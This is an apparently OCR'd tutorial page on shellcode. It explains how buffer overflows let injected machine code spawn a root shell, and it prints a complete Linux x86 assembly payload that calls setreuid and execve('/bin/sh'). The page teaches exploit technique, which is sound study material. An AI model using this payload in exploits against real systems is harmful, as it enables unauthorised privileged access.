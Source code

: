 # A Shellcode: The Payload

## Shellcode

In order to execute our raw exploit codes directly in the stack or other parts of the memory, which deal with binary, we need assembly codes that represent a raw set of machine instructions of the target machines. A shellcode is an assembly language program which executes a shell, such as the '/bin/sh' for Unix/Linux shell, or the command.com shell on DOS and Microsoft Windows.  Bear in mind that in exploit, not just a normal shell but what we want is a root shell or Administrator privilege (note: In certain circumstances, in Windows there are account that having privileges higher than Administrator such as LocalSystem). Shellcode is used to spawn a (root) shell because it will give us the highest privilege. A shellcode may be used as an exploit payload, providing a hacker or attacker with command line access to a computer system. Shellcodes are typically injected into computer memory by exploiting stack or heap-based buffer overflows vulnerabilities, or format string attacks.  In a classic and normal exploits, shellcode execution can be triggered by overwriting a stack return address with the address of the injected shellcode. As a result, instead the subroutine returns to the caller, it returns to the shellcode, spawning a shell. Examples of shellcodes may be in the following forms:

As an assembly language - shellcode.s (shellcode.asm – for Windows):

```asm
#a very simple assembly (AT&T/Linux) program for spawning a shell
.section .data
.section .text
.globl _start

_start:
         xor %eax, %eax
         mov $70, %al           #setreuid is syscall 70
         xor %ebx, %ebx
         xor %ecx, %ecx
         int $0x80

         jmp ender

         starter:
         popl %ebx              #get the address of the string
         xor  %eax, %eax
         mov  %al, 0x07(%ebx)   #put a NULL where the N is in the string
         movl %ebx, 0x08(%ebx)  #put the address of the string
                                #to where the AAAA is
         movl %ebx, 0x0c(%ebx)  #put 4 null bytes into where the BBBB is
         mov $11, %al           #execve is syscall 11
         lea 0x08(%ebx), %ecx   #load the address of where the AAAA was
         lea 0x0c(%ebx), %edx   #load the address of the NULLS
         int $0x80              #call the kernel

ender:
         call starter
         .string "/bin/shNAAAABBBB"
```
